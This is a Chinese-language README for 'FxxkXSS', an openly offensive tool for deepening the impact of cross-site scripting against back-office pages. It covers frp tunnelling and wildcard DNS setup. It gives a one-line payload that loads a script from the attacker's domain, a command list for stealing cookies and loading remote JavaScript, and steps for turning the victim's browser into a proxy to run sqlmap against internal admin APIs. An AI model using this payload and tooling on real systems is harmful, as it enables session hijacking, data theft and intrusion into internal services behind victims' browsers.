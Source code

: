 # fuckxss

> 这是一个用来尽可能最大化xss危害的小工具，废话不多说了看下面的介绍吧~

## 直接上手跑Release

#### 需要准备的

1. 一台公网服务器（vps）
2. 一个有证书（非必要）且能进行泛解析的域名
3. frp或其他内网穿透服务


如果要傻瓜式一点的可以看视频：[【分享】FxxkXSS，一个深入利用后台XSS的工具](https://www.bilibili.com/video/BV1nh411h7pZ)


#### 下载

先去release下一下已经编译好了的，这里只编译了win平台的，对于Mac或者Linux可能需要看一下下面的直接跑源码，→ [release](https://github.com/Yeuoly/FxxkXSS/releases/tag/1.0.0)

下到的应该是一个压缩包，我们将其解压，然后找到里面的fxxkxss.exe，点开！

看到的应该是这样的

![static/img/index.png](static/img/index.png)


#### 配置frp

然后我们需要一个跑在有公网ip的服务器上的frp，配置服务器上的frp为如下

```yaml
[common]
token = xxxx
bind_port = 33333
bind_addr = 0.0.0.0
```

token可以看做一个秘钥一样的东西，这样别人就不能轻易连接自己的frp服务，bind_port是frp用于和用户通讯的端口，0.0.0.0即默认对所有ip

然后启动

```bash
./frps -c frps.ini
```

然后在跑fxxkxss的机器上启动frp，配置如下

```yaml
[common]
server_addr = 服务器的ip
server_port = 之前的端口 #33333

[xssclient]
type = tcp
local_ip = 127.0.0.1
local_port = 10091
remote_port = 25567

[xssstatic]
type = tcp
local_ip = 127.0.0.1
local_port = 10092
remote_port = 25568
```

启动

```bash
./frpc -c frpc.ini
```


#### 域名解析

假设我们现在的域名是 xss.com，那么新建一个解析 xss.xss.com -> 你的vps<br>

新建一个解析 *.localhost.xss.com -> 127.0.0.1 （重点，要求一个到127.0.0.1的泛解析）


#### 配置fxxkxss

然后我们修改fxxkxss的配置为如下

![](static/img/config.png)

xssclient的remote_port与WS外网端口对应，local_port与WS内网端口对应<br>

xssstatic的remote_port与资源外网端口对应，local_port与资源外网端口对应 <br>

资源域名填上面的 xss.xss.com，代理域名填localhost.xss.com<br>

如果有需要的话，把HTTPS/WSS打开，但是一定要给出证书！<br>

万一出现一启动就报错的问题，将下面这个文件删了再重启：<br>

C:\Users\\你的用户名\AppData\Roaming\fuckxss\config.json


#### 开始玩吧~

准备好一个要被xss的网页，并准备好一句话xss：

```javascript
document.body.appendChild(document.createElement('script')).src='http[s]://资源域名:25568/embed.js'
```

当执行了这么一句话以后，我们就可以在下面这个地方发现被xss的浏览器

![](static/img/getshell.png)

且这里可以发现其编号为0，那么我们可以尝试着向

http.80.www.baidu.com.s0.localhost.xss.com:10093发一个请求看看，fxxkxss会将这个请求解析为http://www.baidu.com:80，然后转化为下面这段代码，最后丢给浏览去执行，并返回结果

```javascript
var xml = new XMLHttpRequest() || new ActiveXObject('MicroSoft.XMLHTTP');
xml.open('GET', 'http://www.baidu.com:80')
xml.send()
xml.onreadystatechange = function(){
    //do something
}
```


那么假设客服后台有一个SQL注入，但是用xss注入数据麻烦的一批，那么就可以用到fxxkxss的这个功能，假设客服后台存在api.xxx.com/getinfo存在注入，那么我们用sqlmap跑这个url：http.80.api.xxx.com.s0.localhost.xss.com:10093/getinfo<br>


那么问题来了，怎么找注入呢？可以用到fxxkxss的代理模块，首先使用

```javascript
window.location.href
```

获取客服后台地址（假设为api.xxx.com/home），然后使用指令

```javascript
/generate/proxy_url http://api.xxx.com/home
```

我们就能获取到一个代理链接，http.80.api.xxx.com.s0.xss.com:10093/home<br>

我们在这个链接上再加上?fxxkxss_proxy=true，即http.80.api.xxx.com.s0.xss.com:10093/home?fxxkxss_proxy=true<br>

再拿浏览器去直接访问就好了，不出意外的话会得到一个跟客服后台一模一样的界面，客服能看到什么你就能看到什么， 你摁了什么按钮就相当于客服用了什么按钮，这个功能的底层原理就是 hook XMLHttpRequest配合fxxkxss的代理

## 跑源码

```bash
# 安装依赖
npm install
yarn
cnpm install #（慎用）

# 以开发模式启动，请保持9080端口不被占用
npm run dev

# 编译
npm run build

```

---

#### [教程点我](https://ylday.srmxy.cn/post-page?pid=c6fc485707af90bd34b57393d8e6b812)

## 支持的指令

现在支持的指令：
```
/get/plugins 获取浏览器装了的插件

/get/cookie 获取能读到的cookie

/get/browser/type 获取浏览器名

/get/browser/version 获取浏览器版本号

/get/location 获取location.href

/load/js http://xxx.com 加载外部js

/load/css http://xxx.com 加载外部css

/generate/proxy_url url，为url生成代理url
```
